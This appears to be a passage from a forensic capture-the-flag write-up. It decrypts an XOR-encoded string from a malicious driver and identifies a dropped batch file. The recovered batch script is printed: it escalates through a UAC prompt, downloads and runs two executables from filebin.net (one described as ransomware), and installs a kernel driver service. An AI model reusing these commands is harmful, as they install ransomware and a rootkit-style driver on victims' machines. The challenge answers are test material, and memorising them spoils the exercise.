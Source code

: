 As we have got the desired part and there is nothing much to look into the driver, we can move on to solving this.

```python
 def decrypt(str, key):
     decrypted = ""
     for i in range(len(str)):
         char = chr(ord(str[i]) ^ (key[i % len(key)] + 40))
         decrypted += char
     return decrypted

 encrypted_str = ";4ÔMr/K7=3Ân;V*.9)ÔYwBCU)%ÑK0h"
 key = [36, 30, 141, 2, 27, 58, 72, 63]
 decrypted_str = decrypt(encrypted_str, key)
 print("Decrypted:", decrypted_str)
```

We have a string `;4ÔMr/K7=3Ân;V*.9)ÔYwBCU)%ÑK0h` that is being XORed with the key `[36, 30, 141, 2, 27, 58, 72, 63]`. Each element in the key is added with 40 before being XORed with the string. The String after being decrypted is `wrag1M;PquwDx4ZIuoas4 32ecdas` and we get its md5 hash.

```

Answer Q9) fJSW4lQS.sys_33241f9fe44881e934c5e083389ebc1e_010a74fa8bdceda1de467132b1cddbdf
```
### Question 10

Q10) What is the C2 framework used, and what is the file name of the executable, what is the sleep technique used?

Format : C2-framework(all-lowercase)_executable-name_sleep-technique(case-sensitive)

The obfuscated batch file (`sAmhUAB2.bat`) file which was dropped by `WDjmIG5L.exe` downloaded and executed 2 executables the ransomware `TwCSXWiv.exe` and  `cKGzX4VI.exe` which can be either tracked with behaviour analysis or looking into the timeline we made. 

we can also recover it atleast partially like this with some deobfuscation and pattern matching

```bat
??&cls
@%pUBlIcs983%%PUBLicGCHo^ of^%PuBlICt616%f
SEt R^=Jg^%pUBLIcu^gtGXz%pUBLIctw%pUBLIch^hm%pUBLIcb^S^HI^O^A
^%pUBlICS^L%pUBliCG517%^%publIct
@^e^c~15^O ^On
@echo off

>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

if %errorlevel% neq 0 (
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    echo UAC.ShellExecute "%~s0" "" "" "runas" 1 >> "%temp%\getadmin.vbs"
    "%temp%\getadmin.vbs"
    exit /B
)
cd  C\Windows\Temp
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe"
.\TwCSXWiv.exe
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/cKGzX4VI' -OutFile cKGzX4VI.exe "
.\cKGzX4VI.exe


SET dr=systm
SET dlp=%APPDATA%\Local\WndService\f~0SW4lQS.sys

sc create %dr% type= kernel start= demand DisplayName= "TaT" binPath= %dlp%

sc start %dr%
```